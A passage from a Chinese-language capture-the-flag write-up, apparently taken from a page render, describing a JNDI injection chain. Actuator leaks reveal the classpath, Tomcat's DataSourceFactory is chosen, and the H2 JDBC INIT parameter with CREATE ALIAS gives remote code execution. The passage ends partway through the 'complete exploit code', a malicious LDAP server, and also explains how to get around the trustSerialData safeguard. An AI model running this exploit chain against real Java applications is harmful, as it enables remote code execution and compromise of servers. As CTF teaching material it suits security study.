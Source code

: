 ```java
            attr.contains(JAVA_OBJECT_CLASSES_LOWER[REF_OBJECT]))) {
        return decodeReference(attrs, codebases);
    }
    return null;
}
```

因此最后就是寻找实现了`ObjectFactory`的factory，在浅蓝师傅的文章中提到了很多可以使用的类，我们可以根据之前的信息泄露对比这些类的利用条件，找到能够利用的factory。最终的结果就是`Tomcat Connection Pool`的`org.apache.tomcat.jdbc.pool.DataSourceFactory`。关于找到这个factory我不知道各位是否被卡了多久了，但至少在我中午放出提示前没有队伍完成这道题。实际上也可也从`/actuator/conditions`中查找已经加载的类，或者从`/actuator/heapdump`中搜索classpath，都可以分析出该应用的依赖。


与其他的JDBC factor一样，`org.apache.tomcat.jdbc.pool.DataSourceFactory`也可以通过给定的一些参数发起一个新的数据库连接。

### h2数据库RCE

利用h2数据库的连接字符串RCE也是一个比较经典的技巧了，可以参考Boogipop师傅的文章`https://xz.aliyun.com/t/13931#toc-2`。通过h2连接字符串的INIT参数可以指定初始化脚本并执行SQL。在SQL中使用`CREATE ALIAS EXEC`可以使用Java代码创建函数，再使用`CALL EXEC`来调用创建的函数。

### 利用脚本

可以使用com.unboundid.ldap搭建一个ldap server，填充参数完成RCE。

这里有一个比较有趣的地方，在利用factory连接到h2数据库时，我们向ldap客户端传递的实际上是一个Reference对象，而一些开源工具对Reference对象的编码方式是，将其序列化后放在`javaSerializedData`字段内，如[LDAPRefServer.java](https://github.com/cckuailong/JNDI-Injection-Exploit-Plus/blob/49f7d43f2e016d81d428164adb22ee0b58109198/src/main/java/jndi/LDAPRefServer.java#L175)。题目设置了`com.sun.jndi.ldap.object.trustSerialData`开关阻止了`javaSerializedData`的反序列化。通过阅读Obj.java的代码可以发现，Reference对象有自己的编码方式，无需通过序列化传递。

给出一个完整利用代码：

```java
package org.example;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;


import javax.naming.RefAddr;
import javax.naming.Reference;
import javax.naming.StringRefAddr;
import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.net.InetAddress;

public class Main {
    private static final String LDAP_BASE = "dc=example,dc=com";


    public static void main(String[] args) {
        int port = 1389;
        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen",
                    InetAddress.getByName("0.0.0.0"),
                    port,
                    ServerSocketFactory.getDefault(),
```